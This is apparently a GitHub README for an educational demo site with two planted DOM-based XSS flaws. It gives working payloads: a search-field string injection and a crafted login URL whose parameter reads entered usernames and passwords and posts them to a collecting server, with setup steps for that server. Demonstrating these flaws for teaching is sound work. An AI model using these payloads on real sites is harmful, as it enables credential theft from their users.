 # No Man's Land Revenue Agency 

This is a demo of two DOM-based XSS vulnerabilities in a specifically crafted for this purpose website.
Imagine you're in No Man's Land and you need to access their revenue agency in order to fill in some tax statements...

## Instructions

To get started, navigate to No Man's Land Revenue Agency home page: [https://mtsanovv.github.io/nomanslandra/frontend/index.html](https://mtsanovv.github.io/nomanslandra/frontend/index.html). Feel free to play around with the website and figure out the XSS vulnerabilities yourself (or you can just check out the section below).

## XSS vulnerabilities in the website

- To inject malicious code via html element, open the [search page](https://mtsanovv.github.io/nomanslandra/frontend/search.html) and put the following string in the query input field and then press 'Search':
```article');$("#search").append("<img src=\"https://media.tenor.com/7XnVtgeQv4EAAAAC/money-pool-rich.gif\"/><iframe width=\"1\" height=\"1\" src=\"https://www.youtube.com/embed/_w7Ft_JTbH4?autoplay=1&loop=1\"><\/iframe>");console.log('```

- To inject malicious code via URL and collect some credentials:
    1. Create a MySQL database using the ```storeCredentials.sql``` file from the ```backend``` directory and grant ```SELECT/INSERT/UPDATE/DELETE``` privileges for it to some user
    2. Navigate to the ```backend``` directory and configure the MySQL properties in ```server.js``` (make sure to use the user from step 1)
    3. Run ```node server.js``` (you may need to run first ```npm install express mysql cors``` in the ```backend``` directory)
    4. Navigate to the [malicious login page URL](https://mtsanovv.github.io/nomanslandra/frontend/login.html?continue=$.ajax({contentType:%27application/json%27,type:%27POST%27,url:%27http://localhost:3000/storeCredentials%27,data:JSON.stringify({username:$(%27input:eq(0)%27).val(),password:$(%22input:eq(1)%22).val()})});$(%22article%22).first().append(%27%3Cimg%20src=%22https://media.tenor.com/7XnVtgeQv4EAAAAC/money-pool-rich.gif%22/%3E%3Ciframe%20width=%221%22%20height=%221%22%20src=%22https://www.youtube.com/embed/_w7Ft_JTbH4?autoplay=1%22%3E%3C/iframe%3E%27);console.log)

# Notes
- Created for educational purposes only and to demonstrate how bad XSS vulnerabilities can be
- Recommended browser engine: Chromium (Chrome). Gecko (Firefox) might also work but it has not been tested and WebKit (Safari) is not recommended due to odd behavior
- This is the unencoded JavaScript code for the 'continue' parameter in the malicious URL:
```$.ajax({contentType:'application/json',type:'POST',url:'http://localhost:3000/storeCredentials',data:JSON.stringify({username:$('input:eq(0)').val(),password:$("input:eq(1)").val()})});$("article").first().append('<img src="https://media.tenor.com/7XnVtgeQv4EAAAAC/money-pool-rich.gif"/><iframe width="1" height="1" src="https://www.youtube.com/embed/_w7Ft_JTbH4?autoplay=1"></iframe>');console.log```
- The website is based on Telephasic by HTML5UP!
- Inspired by: [https://btvnovinite.bg/bulgaria/shegadzhii-udariha-sajta-na-nap.html](https://btvnovinite.bg/bulgaria/shegadzhii-udariha-sajta-na-nap.html)

# License
Creative Commons Attribution 3.0 Unported
[http://creativecommons.org/licenses/by/3.0/](http://creativecommons.org/licenses/by/3.0/)

*M.Tsanov, 2023*
